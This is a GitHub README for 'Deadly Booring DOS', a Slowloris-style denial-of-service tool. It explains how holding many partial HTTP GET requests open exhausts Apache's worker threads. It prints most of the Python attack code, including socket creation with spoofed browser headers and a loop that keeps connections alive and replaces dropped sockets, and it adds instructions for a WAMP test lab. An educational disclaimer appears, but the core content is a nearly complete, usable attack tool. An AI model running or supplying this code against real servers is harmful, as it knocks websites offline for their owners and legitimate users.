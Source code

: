 # Deadly Booring DOS

Denial of Service attacks do not always have to flood the server with requests to make him shut down. Deadly Booring DOS takes a much more elegant appraoch: Instead sending as much data as possible, we send as little data as we can. 
DeadlyBooring is a free interpretation of SlowLoris DOS.

### *Preface*
Deadly Booring DOS was purely written for educational researches. I am going to explain how you can set up a simple appache website on one of your old machines that you can use to test DeadlyBooring. Never run such an attack against IP addresses that are not under your control. Never abuse the script to harm anybody. You got your own responsibility.

# The Idea
DeadlyBoorig DOS looks at DOS attacks from a different perspective. To understand how it works, we first need to understand internet protocols in general. What our browser is doing when we enter *http://www.github.com* is sending a HTTP GET Request to the IP address of the github servers (which is *192.30.253.113*, by the way) to the port 80, which is usually used to serve HTTP Requests. Such a HTTP GET request may say *"Please give me the /joelbarmettlerUZH/DeadlyBooring_DOS site"*, to which the github servers will respond with the corresponding HTML file. 

## HTTP GET Requests

The normal usage of such GET requests is to just type an URL into your browser, which then asks the DNS server to convert github.com into an IP and formulates the right GET request for all the content that needs to be displayed, such as images and scripts. The browser asks for data - the server responds - done. 

The interesting thing is that such HTTP GET requests follow a well defined schema: They start with the content the browser is asking for, followed by the used Protocol *(HTTP/1.1)*, ended with two line-break characters \n\n. As long as the server does not retreive these two newline characters, he is waiting for more data to come, thinking the browser has a temporary internet loss or simply a slow connection. Eventually, when the server does not hear anything from the browser for a bunch of seconds, he drops the connection to the browser again. This is quiet a normal behaviour. 

## Apache Servers
DeadlyBooring DOS is now making use of this server behaviours: Most of the internet servers (arround 50%) run on apache, an open source HTTP Server Project. Appache is built in a way that the server opens a new Thread for every user that is requesting content, answering his requests until it is done. A small server only has a limited amount of such threads he can have opened simultaniously - meaning he can only serve a limited amount of users at once. Normally, this is no problem at all, since small websites rarely have several hundret users that want to make a request to the werbserver in the same second. What DeadlyBooring DOS does is opening up connections to all threads on the appache webserver and making an unfinished HTTP GET Request every few seconds, which makes the thread wait for more data and therefore prevents the webserver from closing the connection. This means that we pretend to be several hundret users with a deadly slow internet connection, making the whole server wait for data to come, but we will never finish sending our incomplete requests every few seconds. 

While the server has all its threads dedicated to our script, the webserver will not answer any other GET requests from other users, since he is busy waiting for our nonsense data. Meanwhile, our computer barely needs any computing power since all we do is sending several hundrets tiny small data packages to a server every second - which is by no means a task you would even recognize running in your background. 

# The Code
The code is fairly simple and just under 50 lines. First, we create the DeadlyBooring class and provide it with information about to what IP we would like to lead our attack to, as well as the Port (80 is the standard port for webserver) and the number of parallel connections that we want to establish. Lastly, we fake some HTTP GET header information to make our requests plausible to the server.

```python
class DeadlyBooring():
    def __init__(self, ip, port=80, socketsCount = 200):
        self._ip = ip
        self._port = port
        self._headers = [
            "User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.5) Gecko/20091102 Firefox/3.5.5 (.NET CLR 3.5.30729)",
            "Accept-Language: en-us,en;q=0.5"
        ]
```

## Create sockets

Next, we want to create our sockets. We define a method that connects a new websocket with the dedicated protocol types to the IP and Port that we specified. We send him a first GET request and the HTTP header information. Some error handling ensures that an error would not lead the DOS to stop but would just try creating a new socket instead.

```python
    def newSocket(self):
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(4)
            s.connect((self._ip, self._port))
            s.send(self.getMessage("Get /?"))
            for header in self._headers:
                s.send(bytes(bytes("{}\r\n".format(header).encode("utf-8"))))
            return s
        except socket.error as se:
            print("Error: "+str(se))
            time.sleep(0.5)
            return self.newSocket()
```

Now we just have to create a list with a few hundrets of such sockets that we can then use for our DOS attack.

```python
self._sockets = [self.newSocket() for _ in range(socketsCount)]
```

## Attack-method
Now let's finally write the attack method. It is actually really simple: For all sockets, we send a get request with the *X-a* header field, keeping the request open and making the server wait for the rest of the data. After each sent request, we wait vor a short period of time before sending the next one, with making sure that every socket sends data at least once every couple of seconds so that the connection is not lost. Every lost socket is immediatelly replaced with a new one taking its place, guaranteeing that free server threads are populated again. 

```python    
    def attack(self, timeout=sys.maxsize, sleep=15):
        t, i = time.time(), 0
        while(time.time() - t < timeout):
            for s in self._sockets:
                try:
                    print("Sending request #{}".format(str(i)))
                    s.send(self.getMessage("X-a: "))
                    i += 1
                except socket.error:
                    self._sockets.remove(s)
                    self._sockets.append(self.newSocket())
                time.sleep(sleep/len(self._sockets))
```

# Testing
In order to test our code, we need to create a protected environment, since we can not just start a DOS attack on some server that we do not own. As a simple option, you can use some old hardware and run [wamp](http://www.wampserver.com/en/) on it. Install and run WAMPServer on your second device and test the connection by visiting [localhost:80](localhost:80), which should give you the default wamp interface, indicating that your server is running. If you want to go fancy, create a simple HTML file in the *www* directory where you installed whamp. Now open the command promt on your second device and run 
```sh
ipconfig
```
which will give you your local IP-Address (lets assume here that the devices IP is 192.168.0.33). Test the connection to your second device via typing "192.168.0.33:80" into your browser, letting you directly access the webpage you created on your second device. If you see nothing, make sure both devices are connected to the same router, your WAMP is running and no firewall is blocking the access. Otherwise, make sure that in the WAMP httpd_config file, you set the restrictions to LOCAL (google for further instructions). If it works, try calling DeadlyBooring on the same IP on Port 80. Refresh your page and you will see that you will get no response from the server (note that the website may be cashed, so you will sill see the page). 

License
----

MIT License

Copyright (c) 2018 Joel Barmettler

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.















